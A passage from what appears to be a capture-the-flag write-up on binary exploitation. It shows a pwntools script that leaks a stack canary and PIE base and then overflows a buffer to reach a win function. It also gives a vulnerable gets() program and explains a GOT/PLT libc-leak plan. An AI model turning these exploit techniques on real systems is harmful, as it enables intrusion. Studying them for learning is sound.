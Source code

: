 canary_leak_offset = 55
elf_leak_offset = 57

p.sendlineafter(b"peek? ", str(canary_leak_offset))
p.recvuntil(b"Peek 1: ")
canary = int(p.recvline().strip().decode())
log.info(f"Canary leak : {hex(canary)}")

p.sendlineafter(b"peek? ", str(elf_leak_offset))
p.recvuntil(b"Peek 2: ")
elf_leak = int(p.recvline().strip().decode())
elf_leak = elf_leak - (0x0055555555567E - 0x00555555554000)
log.info(f"Elf leak : {hex(elf_leak)}")
exe.address = elf_leak
win = exe.sym["win"]
log.info(f"Win : {hex(win)}")

payload = b"A"*24
payload += p64(canary)*2
payload += p64(win)

p.sendlineafter(b"lady! ", "1")
p.sendlineafter(b"Name: ", payload)

p.interactive()
{% endhighlight %}

## Pwn/Sus

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/c2483fba-441e-420a-9f16-a6fdddafe1e7)

### Source Code

{% highlight c %}
#include <stdio.h>

void sus(long s) {}

int main(void) {
  setbuf(stdout, NULL);
  long u = 69;
  puts("sus?");
  char buf[42];
  gets(buf);
  sus(u);
}
{% endhighlight %}

Theres not much going on in this binary. Theres no win function that we can return to with the buffer overflow so we will probably need a libc leak. Since PIE is disabled, we can overwrite the return address with the PLT address of puts() with the GOT address of any function as the argument.

Heres a short explanation of the Global Offset Table (GOT) and Procedure Linkage Table (PLT)
> The GOT table contains the address of functions while the PLT is used to resolve function calls. When a function is called for the first time in a program, it will first call the PLT entry of that function, which will resolve the function call and the address of the function is saved into the GOT. On future calls to this same function, it will use the address inside the GOT.
